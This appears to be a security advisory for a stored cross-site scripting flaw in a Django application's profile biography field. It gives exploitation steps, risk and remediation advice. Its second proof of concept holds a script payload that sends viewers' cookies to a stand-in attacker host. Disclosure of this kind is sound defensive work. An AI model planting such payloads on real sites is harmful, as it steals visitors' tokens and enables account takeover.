





# Description

Stored Cross-Site Scripting (CWE-79) in the user-profile **Biography** field. Input submitted via `POST /account/settings/` (the *Change Biography* action) is persisted without sanitisation and later rendered raw on the public profile page `GET /account/profile/<username>/`. Any JavaScript stored in the biography executes in the browser of **every visitor** who views that profile — including administrators.

Unlike the reflected shop-search XSS, this payload is persistent and victim-targeting is passive: the attacker simply waits for others to view the profile.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Log in and open `/account/settings/` → *Change Biography*. | Authenticated session. |
| 2 | Store a payload such as `<script>alert(1)</script>` and save. | Biography persisted verbatim. |
| 3 | Visit `/account/profile/<username>/`. | The script executes for anyone viewing the profile. |

# PoC

**PoC 1 — proof of execution (`alert(1)`):**

The payload is saved from the settings page and fires on the public profile:







**PoC 2 — cookie exfiltration:**

A realistic payload steals the CSRF cookie of any viewer (the `sessionid` cookie is `HttpOnly` and not accessible to JavaScript, but the `csrftoken` cookie is readable):

```html
<script>fetch('https://attacker.example/c?t='+document.cookie)</script>
```





# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | CSRF-token theft and DOM data exfiltration from every profile viewer, including admins (`sessionid` is `HttpOnly`). |
| Integrity | Actions performed in the victim's session (account takeover when an admin views the profile). |
| Availability | No direct impact demonstrated. |

Overall severity: Medium-High — persistent rendering of untrusted biography content may compromise user data confidentiality and application integrity. The extent of the impact depends on the permissions of affected users and the application's security controls.

# Remediation

1. **Restore Django's automatic HTML escaping** — remove the `` block surrounding user-controlled biography content and rely on Django's default auto-escaping.
2. **Enforce server-side input validation** — validate biography length and format according to functional requirements, while preserving plain-text content without unnecessary HTML encoding before database storage.
3. **Ensure consistent output encoding** — ensure that existing and newly stored biographies are rendered safely across all relevant templates using context-appropriate output encoding.
4. **Use HTML sanitisation only if rich-text biographies are required** — use a maintained, parser-based HTML sanitisation library such as `nh3.clean()` with explicit allow-lists of permitted tags, attributes and URL schemes.
5. **Implement a restrictive Content-Security-Policy (CSP)** — configure `CONTENT_SECURITY_POLICY` in `docker-compose.yml` and update `REMOVE_HEADERS` to preserve the policy in the final HTTP response. CSP must remain a defence-in-depth measure rather than a replacement for proper output escaping.
6. **Maintain secure cookie settings** — preserve `SESSION_COOKIE_HTTPONLY = True` and configure appropriate `Secure` and `SameSite` attributes according to deployment requirements. Cookie hardening is not a substitute for XSS prevention.
7. **Add regression tests** — extend `Account/tests.py` to verify that biographies are rendered as escaped text, previously stored content remains safe and legitimate biography content is displayed correctly.

# Author
DaVinciCode
